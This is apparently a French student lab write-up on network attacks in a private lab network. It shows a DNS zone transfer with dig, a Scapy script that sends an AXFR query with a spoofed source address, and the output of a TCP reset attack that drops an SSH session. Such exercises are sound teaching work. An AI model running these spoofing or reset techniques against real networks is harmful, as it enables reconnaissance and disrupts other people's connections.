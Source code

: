 ### 1. DNS
🌞 **Requêter l'enregistrement AXFR**
-> permet de récupérer tous les enregistrements DNS d'un domaine donné (pas très sécurisé si c'est activé)
```
[toto@localhost ~]$ dig axfr @dns.tp3.b2 tp3.b2

; <<>> DiG 9.16.23-RH <<>> axfr @dns.tp3.b2 tp3.b2
; (1 server found)
;; global options: +cmd
tp3.b2. 86400 IN SOA dns.tp3.b2. admin.tp3.b2. 2019061800 3600 1800 604800 86400
tp3.b2. 86400 IN NS dns.tp3.b2. 
coolsite.tp3.b2. 86400 IN A 10.3.3.4 
dns.tp3.b2. 86400 IN A 10.3.3.1 
meow.tp3.b2. 86400 IN A 10.3.3.6 
prout.tp3.b2. 86400 IN A 10.3.3.5 
supersite.tp3.b2. 86400 IN A 10.3.3.3 
web.tp3.b2. 86400 IN A 10.3.3.2 
web2.tp3.b2. 86400 IN A 10.3.3.4 
web3.tp3.b2. 86400 IN A 10.3.3.5 
web4.tp3.b2. 86400 IN A 10.3.3.6 
tp3.b2. 86400 IN SOA dns.tp3.b2. admin.tp3.b2. 2019061800 3600 1800 604800 86400
```

🌞 **Spoof DNS query**
```
from scapy.all import *

answer = sr1(IP(dst="dns.tp3.b2", src="10.3.2.10")/UDP(dport=53)/DNS(rd=1,qd=DNSQR(qname="tp3.b2", qtype="AXFR")),verbose=0)

print(answer[DNS].summary()) # évidement on aura pas de réponse sur la machine attaquante
```
	
[DNS spoof query](dns_flood.pcapng)

```
[attaquant@localhost toto]# python3 rst.py
ip src >> 10.3.3.1
ip dst >> 10.3.3.2
port src >> 56100
port dst >> 22
Seq nb >> 2819881537
Ack nb >> 3424035478
[ 3029.781295 ] device enp0s3 entered promiscuous mode
[ 3029.781295 ] device enp0s3 left promiscuous mode
```

```
[toto@localhost ~]$ aclient_loop: send disconnect: Broken pipe
```

[TCP rst](tcp_rst.pcapng)
